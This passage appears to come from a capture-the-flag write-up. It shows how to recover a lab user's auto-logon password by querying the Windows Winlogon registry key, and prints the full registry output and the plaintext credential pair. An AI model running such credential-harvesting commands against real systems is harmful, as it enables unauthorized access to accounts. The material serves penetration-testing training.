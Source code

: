 For this machine, we can use another unintended way which is to retrieve the hidden credentials for the `hugo` user and log in using `xfreerdp` or remmina, we can find the credentials here:

```powershell
C:\Windows\system32> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x4f6c9151
    ShutdownFlags    REG_DWORD    0x13
    AutoAdminLogon    REG_SZ    1
    DefaultUserName    REG_SZ    hugo
    DefaultPassword    REG_SZ    SurpriseMF123!
    AutoLogonSID    REG_SZ    S-1-5-21-1966530601-3185510712-10604624-1008
    LastUsedUsername    REG_SZ    hugo
    ShellAppRuntime    REG_SZ    ShellAppRuntime.exe

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\DefaultPassword
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\UserDefaults
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\VolatileUserMgrKey
```

As seen, we got the credentials for hugo:

```
hugo:SurpriseMF123!
```
